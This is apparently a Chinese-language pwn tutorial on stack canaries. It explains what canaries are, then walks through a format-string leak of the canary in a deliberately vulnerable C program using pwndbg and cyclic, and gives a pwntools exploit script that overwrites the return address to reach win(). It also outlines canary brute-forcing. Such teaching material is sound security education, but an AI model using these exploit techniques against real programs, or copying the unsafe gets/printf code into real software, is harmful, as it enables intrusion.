 ```yaml
---
title: 'Canaries'
date: '2023-08-21'
lastmod: '2023-08-22'
tags: ['PWN', 'Stack']
draft: false
summary: '防御缓冲区溢出'
authors: ['default']
---
```


Canary 的意思是金丝雀，源于英国矿井工人用来探查井下气体是否有毒的金丝雀笼子。工人们每次下井都会带上一只金丝雀。如果井下的气体有毒，金丝雀由于对毒性敏感就会停止鸣叫甚至死亡，从而使工人们得到预警。

Canary 的设计非常简单——在函数的开头，一个随机值被放置在栈上，作为检测用的保护值。在程序执行 `ret` 之前，程序会检查该值是否被修改过：如果没有被改变，则说明没有发生缓冲区溢出；反之，说明发生了栈溢出，程序会中止。

这种通过检查保护值的手段，可以缓解栈溢出的攻击行为。因为保护值的位置在保存的基地址和返回地址之间，是栈溢出的常见目标位置。攻击者无法跳过保护值直接修改返回地址等关键数据。这样简单有效的检测机制，可以大大增强程序的安全性。

<Note>
  在 Linux 上，Canary 设计为以 `\x00` 结尾。本意是为了保证 Canary 可以截断字符串。如果你在用输出函数的时候处理错了字符串，导致打印的字符串超出了 Canary 的位置，这个 `\x00` 可以终止字符串的输出，防止越界访问 Canary 的值；同时空字节 `\x00` 也会中断字符串打印，不会错误打印后面栈上的内容。但是这也使它很容易被识别出来：攻击者可以通过输出一个可能的 Canary 值，并检验末尾是否为 `\x00` 来判断真正的Canary 是多少。
</Note>

## 0x01 绕过 Canary

有两种常用的方法可以绕过 Canary。

### 1x01 泄漏 Canary

获取 Canary 的值的方法因程序而异，没有固定的万能方式。但主要的目的是获取它的值。最简单的方法是，如果程序存在格式化字符串漏洞的话，可以利用这个漏洞来泄漏栈上的内容。因为 Canary 和其它局部变量一样，位于栈上。

```c:source.c
#include <stdio.h>

void vuln() {
  char buffer[64];

  puts("Leak me");
  gets(buffer);

  printf(buffer);
  puts("");

  puts("Overflow me");
  gets(buffer);
}

int main() {
  vuln();
}

void win() {
  puts("You won!");
}
```

#### 2x01 32-bit

LINK

首先，让我们检查一下是否有 Canary。

```
$ pwn checksec vuln-32
[*] 'vuln-32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

现在我们需要计算 Canary 所在的偏移量，为此我们将使用 pwndbg。

```
$ pwndbg vuln-32

$ b *0x080491d7
$ r
Leak me
%p

Breakpoint 1, 0x080491d7 in vuln ()
[...]
$ x/24wx $esp
0xffffd6e0:	0xffffd6fc	0x00000001	0xf7ffda20	0x0804919e
0xffffd6f0:	0x00000000	0xffffd9ab	0x00000002	0x00007025
0xffffd700:	0xf7ffcfd8	0x00000028	0x00000000	0xffffdfcd
0xffffd710:	0xf7fc6570	0xf7fc6000	0x00000000	0x00000000
0xffffd720:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd730:	0xffffffff	0xf7c0c850	0xf7fc0380	0x437aa500
```

最后一个输出的值是 Canary。我们可以从以下几点来判断：

1. 它距离缓冲区开始的地址约 64 字节，这很接近缓冲区末尾的位置。
2. 它的末尾是 `\x00` ，和以 `ff` 和 `f7` 开头的 libc 库地址不同，看起来非常随机。

从缓冲区开始，我们大约输出了 24 个地址，然后可以找到 Canary 的值。所以我们可以在它前后各输出一个地址，来确定 Canary 的位置。

```
$ ./vuln-32
Leak me
%23$p %24$p %25$p
0x4c1e00 (nil) 0xf7e43e34
```

似乎是 `%23$p`。

*注：Canary 对于每个新进程都是随机的，因此不会相同。*

现在让我们用 pwntools 自动抓取 Canary：

```python:canary.py
from pwn import *

context.log_level = 'debug'

p = process('./vuln-32')

log.info(p.clean())
p.sendline('%23$p')

canary = int(p.recvline(), 16)
log.success(f'Canary: {hex(canary)}')
```

```
$ python exp.py
[+] Starting local process './vuln-32': pid 10042
[*] Leak me
[+] Canary: 0x143e3e00
```

现在剩下的就是计算出 Canary 之前的偏移量，然后计算出 Canary 之后到返回地址的偏移量。

```
$ pwndbg vuln-32
$ b *0x080491d7
$ r
Leak me
%23$p

Breakpoint 1, 0x080491d7 in vuln ()
[...]
$ x/24wx $esp
0xffffd6e0:	0xffffd6fc	0x00000001	0xf7ffda20	0x0804919e
0xffffd6f0:	0x00000000	0xffffd9ab	0x00000002	0x24333225
0xffffd700:	0xf7ff0070	0x00000028	0x00000000	0xffffdfcd
0xffffd710:	0xf7fc6570	0xf7fc6000	0x00000000	0x00000000
0xffffd720:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd730:	0xffffffff	0xf7c0c850	0xf7fc0380	0xf5dafb00
```

我们看到 Canary 位于 `0xffffd73c`。稍后，假设返回地址位于 `0xffffd74c`。让我们在下一个 `gets()` 之后中断并检查我们用什么值覆盖它。

```
$ b *0x0804920f
$ c
Continuing.
0x915d8a00
Overflow me
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Breakpoint 2, 0x0804920f in vuln ()
[...]
$ x/20wx 0xffffd73c
0xffffd73c:	0x61616171	0x61616172	0x61616173	0x61616174
0xffffd74c:	0x61616175	0x61616176	0x61616177	0x61616178
```

现在，我们可以检查 Canary 和 EIP 偏移量：

```
$ cyclic -l 0x61616171
Finding cyclic pattern of 4 bytes: b'qaaa' (hex: 0x71616161)
Found at offset 64
$ cyclic -l 0x61616175
Finding cyclic pattern of 4 bytes: b'uaaa' (hex: 0x75616161)
Found at offset 80
```

返回地址是 Canary 开始后的 16 个字节，因此是 Canary 后的 12 个字节。

```python:exp.py
from pwn import *

context.log_level = 'debug'

p = process('./vuln-32')

log.info(p.clean())
p.sendline('%23$p')

canary = int(p.recvline(), 16)
log.success(f'Canary: {hex(canary)}')

payload = b'A' * 64
payload += p32(canary)  # 用 Canary 值覆盖 Canary 以不触发检测
payload += b'A' * 12    # Padding 到返回地址
payload += p32(0x08049245)

p.sendline(payload)

p.interactive()
```

#### 2x02 64-bit

方法同上，只是变成了 64-bit。

<Note>
只要注意：在 64-bit 中，字符串首先进入相关寄存器，每个地址可以容纳 8 字节，因此偏移量可能不同。
</Note>

LINK

### 1x02 暴力破解 Canary

这在 32-bit 上是可能的，有时也是不可避免的。但在 64-bit 上这种方法是不可行的。因为 32-bit 的 Canary 值通常为 4 字节，爆破遍历空间较小，可行性高；但 64-bit 扩展到 8 字节，遍历空间极大，爆破难度大幅提高。

总体思路是通过大量运行目标进程，每次使用随机 Canary 值来碰撞正确的 Canary 值。但需要明确的指示来判断爆破是否成功，例如出现已知明文 `flag{`。这需要大量时间。

